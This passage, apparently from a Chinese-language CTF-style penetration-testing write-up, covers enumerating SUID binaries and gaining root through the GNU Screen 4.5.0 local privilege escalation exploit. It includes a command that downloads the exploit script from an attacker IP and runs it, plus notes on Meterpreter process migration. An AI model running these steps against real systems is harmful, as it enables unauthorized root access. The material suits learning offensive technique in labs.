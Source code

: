 ```
<Limit GET>
require valid-user
</Limit>
```
## suid
```
cd /usr/lib/eject;
./dmcrypt-get-device
Usage: dmcrypt-get-device <device>

strings dmcrypt-get-device

---
cd /usr/lib/dbus-1.0/;file dbus-daemon-launch-helper

strings dbus-daemon-launch-helper
No memory to read directory entry
/usr/share/dbus-1/session.conf

./dbus-daemon-launch-helper
```
## screen提权

```
GNU Screen 4.5.0 - Local Privilege Escalation                                          | exploits/linux/local/41154.sh

vi 41154.sh
:set ff=unix
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/8.PNG)

```
wget  http://10.10.14.18/41154.sh /tmp
chomd +x 41154.sh;./41154.sh
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/9.PNG)

## 总结
### 在migrate的时候，出错是什么原因？

```
migrate 36582
[-] Error running command migrate: NoMethodError undefined method `pid' for nil:NilClass

```
[POST模块、后门](https://www.jianshu.com/p/c6802c4f03e2)
根据这篇文章，可以用模块迁移pid，无需使用ps然后再`migrate pid`。
